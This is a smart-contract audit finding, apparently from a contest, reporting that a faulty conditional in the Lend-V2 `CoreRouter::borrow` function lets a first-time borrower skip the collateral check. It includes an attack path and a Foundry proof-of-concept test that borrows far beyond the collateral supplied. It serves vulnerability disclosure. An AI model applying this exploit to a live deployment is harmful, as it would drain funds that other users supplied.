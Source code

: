 Sweet Sandstone Squid

High

# Any rando can steal all supplied funds due to faulty conditional in `CoreRouter::borrow` function

### Summary

In the `CoreRouter` contract `borrow` function a vulnerability exists which allows users to borrow virtually any amount of tokens(as long as they're available) when they borrow assets for the first time. The issue comes from improper validation when checking if a user has sufficient collateral, where first-time borrows of any amount for any asset is allowed regardless of the user's collateral level.
```solidity
uint256 borrowAmount = currentBorrow.borrowIndex != 0
    ? ((borrowed * LTokenInterface(_lToken).borrowIndex()) / currentBorrow.borrowIndex)
    : 0;

require(collateral >= borrowAmount, "Insufficient collateral"); 
```
When the `currentBorrow.borrowIndex != 0` condition is false, the `borrowAmount` is always set to 0 regardless of the actual borrowed amount. This is bad as the `currentBorrow.borrowIndex` is only particular to the current `lToken` asset being borrowed. This means that so long as the user has some supplied lTokens and hasn't borrowed a particular asset before (i.e the `borrowIndex` is equal to 0), they will automatically be allowed to borrow any amount of the `lToken` asset.



### Root Cause

In [borrow](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CoreRouter.sol#L157) the condition that sets `borrowAmount` is faulty as when it is false, it always allows any amount of the passed in lToken to be borrowed regardless of the user's supplied collateral

### Internal Pre-conditions

NIL

### External Pre-conditions

NIL

### Attack Path

- A user supplies 1000 USDC
- Rando supplies 10 USDC of collateral and calls borrow with 100 USDC as parameters
- Taking a `collateralFactor` of 0.75, the function gets the rando available collateral which is 0.75 * 10 USDC = 7.5 USDC
- `currentBorrow.borrowIndex` = 0 for USDC lToken
- `borrowAmount` is calculated as 0
- Collateral check passes: 7.5 >= 0
- Rando is allowed to borrow that amount and can repeat for all allowed supply tokens

### Impact

Any rando can steal all available supplied funds

### PoC

Add the following test function to `TestBorrowing.t.sol`
```solidity
function testUserCanStealFunds() public {
        address user = makeAddr("user");
        address token = supportedTokens[0];

        vm.startPrank(deployer);
        //deployer supplies 100_000 ether, enough for user to borrow
        ERC20Mock(token).mint(deployer, 1e23);
        IERC20(token).approve(address(coreRouter), 1e23);
        coreRouter.supply(1e23, token);
        vm.stopPrank();

        vm.startPrank(user);
        //user supplies 0.001 ether
        ERC20Mock(token).mint(user, 1e15);
        IERC20(token).approve(address(coreRouter), 1e15);
        coreRouter.supply(1e15, token);

        //user borrows 10_000 ether
        coreRouter.borrow(1e22, token);
        vm.stopPrank();
    }
```

### Mitigation

_No response_